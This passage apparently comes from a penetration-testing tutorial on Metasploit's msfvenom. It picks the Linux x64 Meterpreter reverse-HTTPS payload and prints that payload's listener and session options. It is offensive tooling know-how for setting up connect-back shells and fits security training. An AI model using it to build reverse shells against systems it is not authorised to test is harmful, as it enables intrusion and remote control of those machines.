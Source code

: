 ```console
    linux/x64/shell_reverse_ipv6_tcp                    Connect back to attacker and spawn a command shell over IPv6
    linux/x64/shell_reverse_tcp                         Connect back to attacker and spawn a command shell
```    

From this we can see that `linux/x64/meterpreter_reverse_https` would be a good payload to use.   

To see the options available for this payload:      
```console
root@kali:~# msfvenom -p linux/x64/meterpreter_reverse_https --list-options
Options for payload/linux/x64/meterpreter_reverse_https:                                                           
=========================                                                                                          
                                                                                                                   
                                                                                                                   
       Name: Linux Meterpreter, Reverse HTTPS Inline                                                               
     Module: payload/linux/x64/meterpreter_reverse_https                                                           
   Platform: Linux                                                                                                 
       Arch: x64
Needs Admin: No
 Total size: 1046512
       Rank: Normal

Provided by:
    Adam Cammack <adam_cammack@rapid7.com>
    Brent Cook <brent_cook@rapid7.com>
    timwr

Basic options:
Name   Current Setting  Required  Description
----   ---------------  --------  -----------
LHOST                   yes       The local listener hostname
LPORT  8443             yes       The local listener port
LURI                    no        The HTTP Path

Description:
  Run the Meterpreter / Mettle server payload (stageless)



Advanced options for payload/linux/x64/meterpreter_reverse_https:
=========================

    Name                         Current Setting                                                Required  Description
    ----                         ---------------                                                --------  -----------
    AutoLoadStdapi               true                                                           yes       Automatically load the Stdapi extension
    AutoRunScript                                                                               no        A script to run automatically on session creation.
    AutoSystemInfo               true                                                           yes       Automatically capture system information on initialization.
    AutoUnhookProcess            false                                                          yes       Automatically load the unhook extension and unhook the process
    AutoVerifySession            true                                                           yes       Automatically verify and drop invalid sessions
    AutoVerifySessionTimeout     30                                                             no        Timeout period to wait for session validation to occur, in seconds
```